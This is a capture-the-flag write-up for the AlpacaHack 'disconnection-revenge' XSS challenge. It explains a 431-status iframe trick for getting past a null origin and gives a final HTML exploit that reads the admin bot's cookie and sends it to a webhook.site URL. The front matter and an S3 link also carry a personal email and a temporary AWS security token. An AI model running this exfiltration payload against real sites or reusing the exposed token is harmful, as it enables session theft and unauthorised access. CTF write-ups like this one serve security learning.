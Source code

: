 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4666GZV7GQ5%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T132310Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDUaCXVzLXdlc3QtMiJGMEQCIFWgtpgpDy90pl2HsWLl%2FNY0HbC1zBDUniHP3DhSaFTPAiAVnBQQjvMbvTBc%2Bgs%2FaFoSJIz9o9B%2BL56WaBZBJddQLiqIBAju%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMv8nZxeOVJwbNkeMSKtwD5Oaamu8JNisnXePuKFUMsx721LniEiN18sN0ZBdK5KlVBafmeKUpSZAPAF6toykePR9Vl%2BUX2MH63uPbmXUAiMQnwHr6lTrYnKvopcDqWjcwLTjS6pt2hjwYXVTPSvpEAoW16nRAgswYTgH1ySrPnpJtNJk5mqe8h2h%2FxA8N1zIZCEybv7UnSq3%2B1VBpewI9jfQ8iVTipHn2jFjfvT145xny0UB1TaUNU62rSLVZ6cNfg%2BO%2BRUZj4%2Bqc1zFCKyzCdOXCGOV7jPKZ4oI7X4hAqxzLJbgy0qjHNfu4cKKzdtPDWCBUtQGfkkoQWxcI7hxEiP%2FPuqBFosDSowKQLH8bIkQcsqbVTFSSJ5EYd6Fxy%2B6%2F9SGsSyzi%2ByPNnfNDVmQsgm12vl0fAoILQtLx201NRP5HJt56u%2FNRMYjHTh3uVW0sSEZH6pUf8LMChn5qDXSuFal0jXugPyFSftoIFq15l%2BkMjNMIizDFAkoIoVCzK%2Bt1kWSkv23bi7erXhQNq8kIzUxzUsy5GMBkjLYOHZ9jyv90xpb2Te7gzk%2FkbYUICV8eg7w6MT9%2FwRviJ9Ss7Rc6d%2FfY5QyqHCqCZ1HkVFXZxlM4joDWYTYmYn003s0G8zTo1RL1tz50n4wJGrMwgdjBwQY6pgHTUbooITAkglDbN9VEZeWnjw%2FzKc0sdV6%2Fc2VsdOlDcXUptV1LEfB%2BTnTXaCKib9zID%2FJbCaGg2uQJ1g57aXhZuYPW4%2BNtSuY4FgeJ6%2BFatRH82GWxdNjuEto%2F9XqYVMtcwnztZ5HmX84Us6f%2BjhtM5P%2F%2BGjdNiJoeKvrsBzh%2BcFqRTM71uCuxtGk7c%2F883LZI0JaBWuxRADBjDGQR1PUGXCBwRSRy\&X-Amz-Signature=e4ae3a8afeff93e4bcde94ce0c1d363879562a8e3dcb0a344dde8f33a73deb0b\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
